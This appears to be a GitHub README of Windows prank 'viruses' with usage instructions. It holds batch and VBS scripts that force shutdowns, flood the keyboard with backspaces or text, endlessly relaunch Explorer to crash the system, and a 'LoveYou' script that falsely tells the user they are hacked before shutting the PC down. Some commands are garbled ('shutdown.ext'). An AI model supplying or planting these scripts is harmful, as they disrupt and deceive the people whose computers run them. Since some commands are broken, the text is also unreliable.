 <h1 align=center><b><i>Viruses and Code</i></b></h1>
----

### Interesting Links

- [Virus 1 to 4](https://www.youtube.com/watch?v=dbjYJ6rW7X8&feature=emb_logo)

- [Virus 5](https://www.youtube.com/watch?v=IHGSdvKY0aM)


### Virus

- Shutdown your window

```
@echo off
shutdown -c "ERROR!" -s
```

To use this you need to open this code in notepad and save it by .bat which means batch file
and then after some time click on open file by going to its file location

- Backspace virus

```
MsgBox "Let's go back a few steps"
Set wshShell =wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "{bs}"
loop
```

To use this you need to open the code in notepad and than save it by .vbs which is visual basic developed by microsoft

To stop this go to taks manager and close microsoft widows base file

- Keyboard Hack

```
Set wshShell = wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "You are doomed."
loop

```

To use this you need to open the code in notepad and than save it by .vbs which is visual basic developed by microsoft


To stop this go to taks manager and close microsoft widows base file


- System Crash

```
@echo off
:repeat
Explorer
call loop.bat 
Goto repeat
```

To use this you need to open this code in notepad and save it by .bat which means batch file
To stop this go to taks manager and close microsoft widows base file


- LoveYou Virus

```
@echo off
color 57
echo Hey, do you love me (only answer in yes or no)
set /p love=
if %love%==yes goto love
if %love%==no goto hate
:love
echo I love you too...
echo Meet you soon :)
pause 
exit
:hate
echo But I love you....hehehehehe
echo You are hacked...
echo Your PC will crash in 10 seconds
timeout 10
shutdown -s -t 100
```
To use this you need to open this code in notepad and save it by .bat which means batch file
Your system will got shutdown if selected no

- Shutdown your system


To simple shutdown

```
shutdown.exe -s 
```

it is default shutdown which happen in 30 sec

else with timer

```
shutdown.ext -s 00
```

or 

```
shutdown.ext -s 100
```


